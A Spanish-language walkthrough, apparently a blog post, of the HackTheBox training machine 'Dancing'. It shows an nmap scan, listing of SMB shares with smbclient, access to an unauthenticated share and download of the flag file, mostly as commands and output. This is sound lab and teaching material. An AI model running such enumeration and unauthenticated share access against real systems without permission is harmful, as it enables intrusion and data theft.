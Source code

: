 ```yaml
---
title: Dancing HTB Walkthrough
published: true
---
```


# Dancing HTB

En este artículo trataré la resolución de una de las máquinas del Tier 0 del starting point de HackTheBox. 

## Fase de reconocimiento

Tras ejecutar nmap obtenemos la siguiente respuesta:

```
$nmap -sCV 10.129.1.12

Nmap scan report for 10.129.1.12
Host is up (0.12s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

│ Host script results:
|_clock-skew: 4h04m24s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-04-26T23:38:28
|_  start_date: N/A
```

Vemos que el puerto 445 se encuentra abierto y corre smb. Por lo que tratamos de listar los 
recursos compartidos.

```
$smbclient -L //10.129.1.12/

Enter WORKGROUP\ 's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	WorkShares      Disk      
SMB1 disabled -- no workgroup available
```

Vemos que el recurso `WorkShares` no requiere de autenticación, por lo que tratamos de acceder:

```
$smbclient //10.129.1.12/WorkShares

smb: \> ls
  .                                   D        0  Mon Mar 29 10:22:01 2021
  ..                                  D        0  Mon Mar 29 10:22:01 2021
  Amy.J                               D        0  Mon Mar 29 11:08:24 2021
  James.P                             D        0  Thu Jun  3 10:38:03 2021

		5114111 blocks of size 4096. 1752259 blocks available

smb: \> cd James.P\

smb: \James.P\> ls
  .                                   D        0  Thu Jun  3 10:38:03 2021
  ..                                  D        0  Thu Jun  3 10:38:03 2021
  flag.txt                            A       32  Mon Mar 29 11:26:57 2021

		5114111 blocks of size 4096. 1752524 blocks available

smb: \James.P\> get flag.txt 
getting file \James.P\flag.txt of size 32 as flag.txt (0,1 KiloBytes/sec) (average 0,2 KiloBytes/sec)

smb: \James.P\> quit
```

Vemos que en el directorio `James.P` hay un archivo `flag.txt`, lo descargamos con `get` y comprobamos que es la flag.


Muchas gracias por leer el post, y seguid hack.